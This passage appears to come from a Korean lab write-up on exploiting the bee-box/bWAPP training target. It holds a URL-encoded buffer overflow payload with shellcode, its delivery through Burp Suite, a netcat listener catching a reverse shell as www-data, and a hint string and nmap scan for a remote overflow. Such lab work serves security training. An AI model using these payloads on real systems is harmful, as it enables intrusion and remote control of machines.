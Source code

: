 ```txt
%27%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%8f%92%04%08%54%58%2d%79%fc%fd%fd%2d%01%01%01%01%2d%01%01%01%01%50%5c%25%01%01%01%01%25%02%02%02%02%2d%75%1c%30%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%53%df%74%2b%2d%01%01%01%01%2d%01%01%01%01%50%2d%12%ca%20%1d%2d%01%01%01%01%2d%01%01%01%01%50%2d%f0%ff%fc%fc%2d%01%02%01%01%2d%01%01%01%01%50%2d%fe%fd%f9%02%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%fd%ff%f5%2d%01%01%02%01%2d%01%01%01%01%50%2d%0c%fe%fa%03%2d%01%01%01%01%2d%01%01%01%01%50%2d%bc%cd%c3%c7%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%f5%02%37%2d%01%01%01%01%2d%01%01%01%01%50%2d%33%02%4c%fe%2d%01%01%01%01%2d%01%01%01%01%50%2d%2b%f5%ba%0c%2d%01%01%01%01%2d%01%01%01%01%50%2d%16%46%61%1e%2d%01%01%01%01%2d%01%01%01%01%50%2d%78%9a%1a%ab%2d%01%01%01%01%2d%01%01%01%01%50%2d%04%58%7f%e7%2d%01%01%01%01%2d%01%01%01%01%50%2d%37%ba%f7%66%2d%01%01%01%01%2d%01%01%01%01%50%2d%ca%e7%7e%95%2d%01%01%01%01%2d%01%01%01%01%50%2d%0f%21%7d%39%2d%01%01%01%01%2d%01%01%01%01%50%2d%e6%58%0e%92%2d%01%01%01%01%2d%01%01%01%01%50%27
```

### 10. BurpSuite로 페이로드 보내기

![image](https://user-images.githubusercontent.com/28076542/53565153-fd784c80-3b9b-11e9-90ef-e47b417e4595.png)

### 11. 결과 확인

```bash
root@ming:~/바탕화면# nc -lvp 4444
listening on [any] 4444 ...
192.168.190.143: inverse host lookup failed: Unknown host
connect to [192.168.190.155] from (UNKNOWN) [192.168.190.143] 36063
whoami
www-data
```

---

## Buffer overflow (Remote) 시도

![image](https://user-images.githubusercontent.com/28076542/53477495-2f17e780-3ab8-11e9-8530-cfa035a78035.png)

* [역시나 여기 참조](https://ejtaal.net/infosec/beebox.html)
* Hint: `\x90*354 + \xa7\x8f\x04\x080 + [payload]`

### 1. 칼리리눅스에서 nmap 실행하여 포트 정보 확인

```bash
root@ming:~/바탕화면# nmap 192.168.190.143

Starting Nmap 7.60 ( https://nmap.org ) at 2019-03-01 11:20 KST
Nmap scan report for 192.168.190.143
Host is up (0.00040s latency).
Not shown: 983 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
139/tcp  open  netbios-ssn
443/tcp  open  https
```